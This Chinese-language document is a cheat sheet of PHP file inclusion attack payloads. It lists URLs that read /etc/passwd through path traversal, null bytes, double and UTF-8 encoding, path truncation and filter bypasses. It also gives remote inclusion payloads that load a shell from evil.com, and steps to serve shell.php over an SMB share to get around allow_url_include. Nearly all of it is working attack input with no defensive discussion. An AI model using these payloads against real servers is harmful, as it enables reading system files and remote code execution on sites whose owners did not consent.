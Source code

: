 # 文件包含漏洞

### 本地文件包含

```bash
http://example.com/index.php?page=../../../etc/passwd
```

空字节（低于5.3.4）
```bash
http://example.com/index.php?page=../../../etc/passwd%00
```

遍历
```bash
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

双编码
```bash
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

UTF8
```bash
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

路径截断</br>
在大多数 PHP 安装中，长度超过4096字节的文件名将被截断，因此任何多余的字符都将被丢弃
```bash
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE]
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

基础过滤绕过
```bash
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

### 远程文件包含

PHP5后默认配置不起作用，需要修改配置文件allow_url_include = On

```bash
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

绕过allow_url_include</br>
当allow_url_include和allow_url_fopen被设置为Off时，可以使用smb协议在Windows机器上包含远程文件

+ 1. 创建一个向所有人开放的smb共享
+ 2. 写入一个shell.php文件，其中包含执行的PHP代码
+ 3. 然后文件包含它，有效负载为http://example.com/index.php?page=\\攻击者主机地址\share\shell.php
